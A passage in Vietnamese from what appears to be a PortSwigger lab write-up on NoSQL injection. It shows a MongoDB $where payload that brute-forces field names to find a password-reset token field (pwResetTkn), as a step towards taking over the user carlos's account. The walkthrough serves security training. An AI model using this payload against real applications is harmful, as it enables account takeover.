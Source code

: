 ![img](https://github.com/DucThinh47/PortSwigger/blob/main/NoSQL-Injection/images/image66.png?raw=true)

Tiếp theo thử xác định trường chứa Token đặt lại mật khẩu, thay đổi payload với các chỉ số field khác, có thể thay payload thành:

    "$where": "function(){ if(Object.keys(this)[3].match(/^a/) ) return 1; else 0; }"

Chọn payload position cần brute-force là "a".

[1] username
[2] password
[3] email
[4] pwResetTkn

Vị trí field name thứ 4 là hợp lý nhất.

Tiếp theo thử kiểm tra tên token trên endpoint reset password để đổi lại password của carlos. Request `/forgot-password`: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/NoSQL-Injection/images/image67.png?raw=true)
